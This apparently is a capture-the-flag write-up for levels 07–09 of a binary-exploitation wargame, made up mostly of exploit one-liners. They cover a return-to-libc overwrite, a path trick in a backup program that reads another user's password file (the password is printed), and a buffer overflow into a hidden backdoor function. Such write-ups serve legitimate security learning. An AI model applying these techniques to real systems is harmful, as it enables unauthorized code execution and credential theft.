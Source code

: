 ## level07

eip at index 114
every third number is reserved (3,6,9,12,15...)

Exploit:
```
(echo -e "store\n4159090384\n1073741938\nstore\n4160264172\n116\nquit";cat) | ./level07
```

## level08

Usage:
```
level08@OverRide:~$ ./level08
Usage: ./level08 filename
ERROR: Failed to open (null)
```

Exploit:
```
$ mkdir -p backups/home/users/level09/
$ ~/level08 /home/users/level09/.pass
$ cat backups/home/users/level09/.pass
fjAwpJNs2vvkFLRebEvAQ2hFZ4uQBWfHRsP62d8S
```

## level09

find `n` passed to `strncpy`

```
r < <(python -c 'print("A"*40+"C\n"+"B"*100)')
```

Find overflow offset
```
r < <(python -c 'print("A"*40+"\xff\n"+"B"*200+"CCCCCCCC")')
```

We can insert the address of the function `secret_backdoor`

Exploit:
```
(python -c 'print("A"*40+"\xff\n"+"\x90"*200+"\x8c\x48\x55\x55\x55\x55\x00\x00")';cat) | ./level09
```
